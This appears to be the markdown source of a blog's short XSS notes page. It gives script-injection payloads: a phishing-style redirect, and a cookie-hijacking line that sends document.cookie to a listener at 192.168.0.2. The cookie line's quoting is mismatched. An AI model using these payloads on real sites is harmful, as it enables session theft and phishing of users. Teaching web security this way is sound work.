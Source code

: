 ```yaml
---
layout: post
title: 'Notes | XSS'
date: 2021-12-12
permalink: /notes/web/xss/
---
```



# [](#header-4)General

If we have a form we can try to insert code, like this:
{% highlight plain %}
<script> ... </script>
{% endhighlight %}
If the page execute what are in the form we can make several damage to the page.

There are some examples:
{% highlight plain %}
<script> window.location="" </script>
{% endhighlight %}
This will send the target to a different page (phishing).

Also, if we use **deface** we can send a visitor to another part of the webpage. This can break the whole page.

# [](#header-4)Blind XSS
We can use XSS to a cookie hijacking. First we need to start an http server, we can do it with python...:
{% highlight plain %}
> python -m http.server 80
{% endhighlight %}
or php...:
{% highlight plain %}
> php -S 0.0.0.0:80
{% endhighlight %}

Then we send others cookie to our http server:
{% highlight plain %}
<script>document.write('<img src="http://192.168.0.2:80/xss.png?cookie='+ document.cookie + "')</script>
{% endhighlight %}
